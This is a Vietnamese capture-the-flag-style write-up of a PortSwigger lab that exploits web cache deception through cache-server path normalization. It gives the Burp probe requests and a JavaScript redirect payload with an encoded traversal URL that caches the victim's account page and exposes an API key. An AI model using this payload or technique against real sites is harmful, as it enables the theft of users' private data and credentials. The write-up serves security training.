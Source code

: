 # Write-up: Exploiting cache server normalization for web cache deception

### Tổng quan
Khai thác lỗ hổng web cache deception do cơ chế chuẩn hóa (normalization) của cache server, sử dụng path traversal (`../`) và ký tự `#` hoặc `?` để lừa hệ thống cache lưu trữ trang `/my-account` của tài khoản carlos dưới dạng file tĩnh, lấy API key của `carlos` và submit key để hoàn thành lab.

### Mục tiêu 
- Khai thác web cache deception thông qua path traversal và ký tự `#` hoặc `?` để lấy API key của tài khoản `carlos` và submit key để hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Community
- Firefox Browser
- Exploit Server (PortSwigger)

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập tài khoản `wiener`:`peter`, quan sát yêu cầu:
    `GET /my-account HTTP/2`
    - Thử path traversal trong Burp Repeater:
        `GET /my-account../profile.cs`
        - **Phản hồi**: 404 Not Found, cho thấy `/my-account../profile.cs` không hợp lệ:
        ![not](./images/1_not-found.png)

- Dò ký tự đặc biệt bằng Burp Intruder:
    `GET /my-account§../§profile.cs`
    - **Kết quả**: Ký tự `?`, `#`, `%23`, `%3F` được server chấp nhận nhưng không có header `X-Cache: miss` hoặc `hit`:
        ![delimiter](./images/2_delimiter.png)

- Kiểm tra cache với file tĩnh:
    `GET /resources/js/tracking.js`
    - **Phản hồi**: `X-Cache: miss`, gợi ý hệ thống cache hoạt động với file tĩnh.
        ![miss](./images/3_resources.png)

- Thử cache với path traversal:
    `GET /my-account/../resources/111`
    - Lần 1: **Phản hồi**: `X-Cache: miss`, nội dung chưa được cache.
        ![miss](./images/4-miss.png)
    - Lần 2: **Phản hồi**: `X-Cache: hit`, xác nhận hệ thống cache lưu trữ nội dung `/my-account` qua path traversal:
        ![hit](./images/5-hit.png)
    - **Quan sát**: Path traversal (`../`) khiến cache server chuẩn hóa URL thành `/my-account`, nhưng lưu trữ như file tĩnh, gợi ý khả năng web cache deception.

2. **Khai thác (Exploitation)**
- Sử dụng Exploit Server để lừa nạn nhân (carlos) truy cập URL:
    ```Javascript
    <script>document.location="https://lab-id.web-security-academy.net/my-account%23%2f%2e%2e%2fresources?aaa"</script>
    ```
    - Lưu payload vào body của Exploit Server và gửi tới nạn nhân qua chức năng "Deliver exploit to victim":
        ![body](./images/6_body.png)

- Kiểm tra cache để lấy nội dung trang `/my-account` của carlos:
    `GET /my-account%23%2f%2e%2e%2fresources?aaa`
    - **Phản hồi**:`X-Cache: hit`, trả về trang `/my-account` của carlos, chứa API key `pxP7hgVNuTtNYW3vybDV1rlcQG2hYyU7`:
        ![api](./images/7_api.png)

- Submit API key pxP7hgVNuTtNYW3vybDV1rlcQG2hYyU7 qua chức năng submit của lab
    - Phản hồi: Lab hoàn thành:
        ![solved](./images/\)

- **Giải thích**: Lỗ hổng web cache deception xảy ra do cache server chuẩn hóa `/my-account%23%2f%2e%2e%2fresources?aaa` thành `/my-account`, nhưng lưu trữ URL như file tĩnh, cho phép truy xuất API key của carlos mà không cần xác thực.

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng web cache deception bằng path traversal (`../`) và ký tự `#` hoặc `?` để lừa cache server lưu trữ trang nhạy cảm.
- Nhận thức tầm quan trọng của việc kiểm tra cơ chế chuẩn hóa URL của cache server và cấu hình cache an toàn để ngăn chặn web cache deception.

### Tài liệu tham khảo
- PortSwigger: Web Cache Deception

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác web cache deception thông qua cơ chế chuẩn hóa của cache server, lấy API key của người dùng, và hiểu cách bảo vệ hệ thống cache khỏi các cuộc tấn công tương tự. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 7/2025.*